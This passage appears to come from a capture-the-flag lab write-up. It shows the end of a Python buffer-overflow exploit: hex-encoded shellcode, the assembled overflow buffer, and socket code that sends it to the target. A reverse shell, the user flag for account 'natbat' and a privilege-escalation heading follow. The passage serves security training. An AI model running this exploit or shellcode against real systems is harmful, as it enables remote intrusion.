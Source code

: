 ```python
    "\x37\xc2\xbc\x2f\x9d\x89\x51\x3b\xac\xd0\x3d\x88\x9d\xea"
    "\xbd\x86\x96\x99\x8f\x09\x0d\x35\xbc\xc2\x8b\xc2\xc3\xf8"
    "\x6c\x5c\x3a\x03\x8d\x75\xf9\x57\xdd\xed\x28\xd8\xb6\xed"
    "\xd5\x0d\x18\xbd\x79\xfe\xd9\x6d\x3a\xae\xb1\x67\xb5\x91"
    "\xa2\x88\x1f\xba\x49\x73\xc8\xcf\x83\x6e\x14\xb8\x99\x90"
    "\x35\x64\x17\x76\x5f\x84\x71\x21\xc8\x3d\xd8\xb9\x69\xc1"
    "\xf6\xc4\xaa\x49\xf5\x39\x64\xba\x70\x29\x11\x4a\xcf\x13"
    "\xb4\x55\xe5\x3b\x5a\xc7\x62\xbb\x15\xf4\x3c\xec\x72\xca"
    "\x34\x78\x6f\x75\xef\x9e\x72\xe3\xc8\x1a\xa9\xd0\xd7\xa3"
    "\x3c\x6c\xfc\xb3\xf8\x6d\xb8\xe7\x54\x38\x16\x51\x13\x92"
    "\xd8\x0b\xcd\x49\xb3\xdb\x88\xa1\x04\x9d\x94\xef\xf2\x41"
    "\x24\x46\x43\x7e\x89\x0e\x43\x07\xf7\xae\xac\xd2\xb3\xcf"
    "\x4e\xf6\xc9\x67\xd7\x93\x73\xea\xe8\x4e\xb7\x13\x6b\x7a"
    "\x48\xe0\x73\x0f\x4d\xac\x33\xfc\x3f\xbd\xd1\x02\x93\xbe"
    "\xf3"
)

postfix = ""

# Build and send the buffer
buffer = prefix + overflow + retn + padding + payload + postfix

print(f"[+] Connecting to {ip}:{port}...")
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((ip, port))
    print(f"[+] Sending {len(buffer)} bytes payload...")
    s.send(buffer.encode('latin-1') + b"\r\n")
    print("[+] Payload sent.")

print("[+] Done. Check your listener for a shell!")

```

We need to start a listener and launch the exploit:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250530172927.png)

We got access as user `natbat`, let's get our user flag and begin privilege escalation:

```
C:\Users\natbat\Desktop>type user.txt.txt
{H4lf_W4y_Th3r3}

The buffer overflow in this room is credited to Justin Steven and his
"dostackbufferoverflowgood" program.  Thank you!
```


Let's begin privilege escalation.


# PRIVILEGE ESCALATION
---
